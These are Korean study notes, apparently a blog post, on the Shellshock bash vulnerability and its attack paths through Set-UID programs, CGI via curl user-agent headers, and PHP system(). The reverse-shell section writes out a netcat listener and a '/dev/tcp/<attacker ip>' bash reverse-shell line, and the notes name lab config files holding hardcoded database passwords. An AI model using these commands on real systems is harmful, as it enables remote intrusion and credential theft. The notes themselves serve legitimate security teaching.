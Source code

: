 ```yaml
---
title: Shellshock Attack
tags: Shellshock Vulnerabilities Cybersecurity
key: page-shellshock_attack
categories: [Cybersecurity, Vulnerabilities]
author: hyoeun
math: true
mathjax_autoNumber: true
---
```


## Shell이란?
* Shell이란 command-line interpreter이다. 유저와 OS사이에서 명령어들을 읽고 그것들을 실행시켜준다.
* sh, bash, csh, zsh, Windows PowerShell 등이 있다.
* 그 중 bash shell이 Linux계열에서 가장 많이 쓰인다.
* Shell 안에 존재하는 보안 취약점들을 ShellShock라고 부른다.

```shell
$ foo=' () { echo "hello world"; }'
$ echo $foo
() { echo "hello world"; }
$ declare -f foo
$ export foo
$ bash
(child):$ echo $foo

(child):$ declare -f foo
foo ()
{
    echo "hello world"
}
(child) :$ foo
hello world
```

* 여기서 foo= ' '를 해버리면 shell variable로 인식을 해버리지만 자식 bash에서는 shell function으로 작동되어 버린다.
* 그리고 { 왼쪽 오른쪽에 스페이스(```() { echo```)가 반드시 있어야지만 함수로 인식 할 수 있다.
* export 커맨드를 통해 입력된 쉘 변수는 자식 쉘에게 전달될 수 있다.
* 부모 shell에서 자식 shell로 환경변수를 전달하는 과정에서 ()이 있으면 자식 shell에게 쉘 변수가 아닌 쉘 함수로 전달한다.
* declare는 쉘 함수를 프린트 해준다.

## The Shellshock Bug

* Shellsock가 일어나는 이유는 bash 코드 안에서 parsing을 제대로 못하고 있기 때문이었다.
* 먼저 환견변수들 중에서 ```() {``` 로 시작하면 환경변수를 함수로 바꿔버린다.
```
foo='() { echo "test"; } -> foo () { echo "test"; }
```
* 환경 변수로 바꾸면서 만약 거기에 함수 정의만 있는 것이 아니라 커맨드가 있다면 그것마저 실행시켜버려서 여기서 버그가 발생하게 된 것이다.

## Shellshock Attack on Set-UID Programs

* bash shell을 호출하는 함수가 있는 프로그램이 있다면 그게 타겟 프로그램이 될 수 있다.
* 타겟 프로그램이 Set-UID Program일때 우리는 위의 버그 예제를 사용함으로써 root shell을 탈취할 수 있다.
* 이때, dash와 같은 shell이 realID와 eID가 다름으로써 환경 변수로부터 함수 변환이 안 되는 것을 방지 하지 않는 취약한 프로그램으로만 공격이 가능할 것이다.

## Shellshock Attack on CGI Programs

* Common Gateway Interface(CGI)는 웹 서버에서 다이나믹하게 웹 페이지를 생성해주는 프로그램을 돌릴 수 있게 도와주는 것이다.
* 많은 CGI가 shell script를 쓰는데 bash를 쓰는게 있다면 우리가 노리는 타겟이 된다.
* 서버쪽에서 cgi 프로그램이 아파치 서버에 요청을 하면 서버는 fork를 통해 새로운 프로세스를 실행하게 된다.
* #!/bin/bash로 시작하면 exec()가 /bin/bash를 실행하게 된다.
* 브라우저로 user-agent값을 바꿔서 보내는건 힘들기 때문에 curl로 -A 를 통해 shellshock를 일으키는게 좋고 우분투 시스템에서 대게 일반적으로 /var/www/SQL/collabtive/config/standard/config.php나 /var/www/SeedElgg/engine/settings.php 문서들을 보면 데이터베이스 아이디와 비번이 hard coding된 것을 볼 수 있다.

## Reverse Shell

* Reverse Shell이란 원격 컴퓨터에서 input output을 컨트롤 할 수 있게 해주는 shell process이다.
* netcat을 주로 쓰는데 ```$ nc -l 9090 -v```라는 명령어를 주면 9090번 포트에서 listen을 하고 있고 공격자 컴퓨터에서 이것을 먼저 실행시킨다.
* 이후 서버쪽에서 ```$ /bin/bash -i > /dev/tcp/<attacker ip>/9090 0<&1 2>&1```을 실행시켜준다.
* bash를 interactive하게 쓴다는 거고 거기의 stdout을 9090포트로 보내는데 stdout내용을 fd 0(stdin) 으로 사용하고 stderr는 stdout(fd 1)로 보내겠다는 의미이다.
* 서버에 보내는 명령어를 이전에 배운 shellshock를 통해 실행시키면 되는데 curl -A에 넣어서 보내면 된다.
* Reverse shell에서 중요한 것은 standard input, output, and error에 관한 값을 공격자의 network connection으로 redirect하는 것이다. 


## Remote Attack on PHP

* Shellshock 공격에는 다음 2가지 조건이 필요하다.
    1. invocation of bash
    1. passing of user data as environment variables
* PHP code에서 system()을 쓰고, shell 이 bash라면 1번 조건이 충족된다.
* system()을 통해서 environment variables을 user input에 의해 설정할 수 있다면 2번 조건이 충족된다.

## Refrence

* [COMPUTER SECURITY: A Hands-on Approach by Wenliang Du](https://www.amazon.com/Computer-Security-Hands-Approach-Wenliang/dp/154836794X)